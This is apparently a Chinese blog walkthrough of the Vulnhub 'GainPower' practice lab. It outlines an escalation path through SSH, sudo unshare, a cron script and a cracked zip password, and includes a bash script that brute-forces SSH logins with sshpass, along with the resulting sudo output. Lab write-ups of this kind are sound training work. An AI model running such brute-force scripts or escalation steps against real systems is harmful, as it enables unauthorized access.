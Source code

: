 ```yaml
---
layout: post
title: "GainPower靶场渗透历程"
date: 2020-12-02
author: Bin4xin
toc: true
categories:
    - blog
    - Vulnhub
    - 笔记
permalink: /blog/GainPower/walkthrough/
---
```


- employee1:ssh banner发现问题；
    - 根据提示获得低权限shell
- employee64:考验脚本编写能力（ssh爆破）
    - bash脚本批量连接

- programmer:获取sudo shell
    - 通过unshare切换到sudo用户
    - `$ su - employee64`
    - `$ sudo -u programmer unshare`
- vanshal:crontab计划获取shell
    - pspy tool to detected
    - /media/programmer/scripts/backup.sh
- root:secert zip file
    - zip password crack
    - login ajenti to run root shell.

写个脚本来批量跑试试看：
```
#!/bin/bash

pwn () {
  read -p 'target ip: ' ip
  sleep 2
  for data in {1..100}
  do
      echo 'Try: ' $data
      sshpass -p 'employee'$data ssh employee$data@$ip 'echo employee'$data' | sudo -S -l'
      printf "\n"
  done
}

pwn
```
for一下用户名密码{employee+$data}in{1..100}，使用sshpass进行批量ssh连接认证，并尝试`sudo`;
失败如下：
```
[sudo] employee100 的密码：对不起，用户 employee100 不能在 localhost 上运行 sudo。
```
成功：
```
[sudo] employee64 的密码：匹配 %2$s 上 %1$s 的默认条目：
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

用户 employee64 可以在 localhost 上运行以下命令：
    (programmer) /usr/bin/unshare
```
所以用户employee64是拥有sudo权限；




